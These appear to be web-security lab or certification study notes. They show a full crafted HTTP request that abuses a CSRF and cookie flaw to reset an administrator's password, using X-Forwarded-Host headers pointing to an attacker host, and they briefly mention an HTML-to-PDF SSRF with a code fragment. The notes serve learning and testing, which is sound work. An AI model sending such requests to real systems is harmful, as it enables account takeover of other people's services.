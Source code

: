 ### CSRF Is Logged In `POST /refreshPassword`

> If cookie with the **isloggedin** name is _**identified**_, then a refresh of admin password POST request could be exploited. Change username parameter to administrator while logged in as low privilege user, CSRF where token is not tied to user session.

```html
POST /refreshpassword HTTP/1.1
Host: TARGET.net
Cookie: session=%7b%22username%22%3a%22carlos%22%2c%22isloggedin%22%3atrue%7d--MCwCFAI9forAezNBAK%2fWxko91dgAiQd1AhQMZgWruKy%2fs0DZ0XW0wkyATeU7aA%3d%3d
Content-Length: 60
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="109", "Not_A Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: https://TARGET.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.75 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
X-Forwarded-Host: EXPLOIT.net
X-Host: EXPLOIT.net
X-Forwarded-Server: EXPLOIT.net
Referer: https://TARGET.net/refreshpassword
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

csrf=TOKEN&username=administrator
```

![[Pasted image 20250219161347.png]]


### HTML to PDF

> **Identify** a PDF download function and the `source code` uses `JSON.stringify` to create html on download. This HTML-to-PDF framework is vulnerable to SSRF attack. Partial `source code` for JavaScript on the target `downloadReport.js`.

```js
function downloadReport(event, path, param) {

body: JSON.stringify({
  [param]: html
  }
  )
  
```
